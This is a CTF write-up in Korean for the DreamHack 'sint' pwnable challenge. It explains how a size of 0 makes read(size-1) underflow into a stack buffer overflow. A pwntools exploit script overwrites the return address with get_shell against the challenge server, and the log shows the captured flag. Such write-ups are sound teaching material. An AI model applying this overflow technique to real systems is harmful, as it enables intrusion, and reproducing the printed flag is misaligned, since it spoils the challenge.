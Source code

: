 # [DreamHack] sint

:writing_hand: [h0meb0dy](mailto:h0meb0dysj@gmail.com)

> 이 문제는 서버에서 작동하고 있는 서비스(sint)의 바이너리와 소스 코드가 주어집니다.
> 프로그램의 취약점을 찾고 익스플로잇해 get_shell 함수를 실행시키세요.
> 셸을 획득한 후, “flag” 파일을 읽어 워게임 사이트에 인증하면 점수를 획득할 수 있습니다.
> 플래그의 형식은 DH{…} 입니다.
>
> Release: [sint.zip](https://github.com/h0meb0dy/Dreamhack-Wargame/files/8549507/sint.zip)

## Mitigation

![image](https://user-images.githubusercontent.com/102066383/160315535-17427c2a-94ae-45c6-bb9a-ee938462fc4b.png)

## Analysis

```c
    printf("Size: ");
    scanf("%d", &size);

    if (size > 256 || size < 0)
    {
        printf("Buffer Overflow!\n");
        exit(0);
    }
```

`size`를 입력받는다. 0보다 작거나 256보다 큰 값을 입력하면 프로세스를 종료한다.

```c
    printf("Data: ");
    read(0, buf, size - 1);
```

`size - 1`만큼 `buf`에 데이터를 입력받는다. 만약 `size`가 0이면 `0xffffffff`바이트를 입력받게 되어 BOF가 발생한다. `main()`의 return address를 `get_shell()`의 주소로 덮으면 셸을 획득할 수 있다.

## Exploit

```python
from pwn import *

REMOTE = True

if not REMOTE:
    r = process('./release/sint')
else:
    r = remote('host1.dreamhack.games', 15671)

get_shell = 0x8048659  # get_shell()

r.sendlineafter('Size: ', '0')
r.sendafter('Data: ', b'a' * 0x104 + p32(get_shell))

r.interactive()
```

```
$ python3 solve.py
[+] Opening connection to host1.dreamhack.games on port 15671: Done
[*] Switching to interactive mode
$ cat flag
DH{d66e84c453b960cfe37780e8ed9d70ab}
```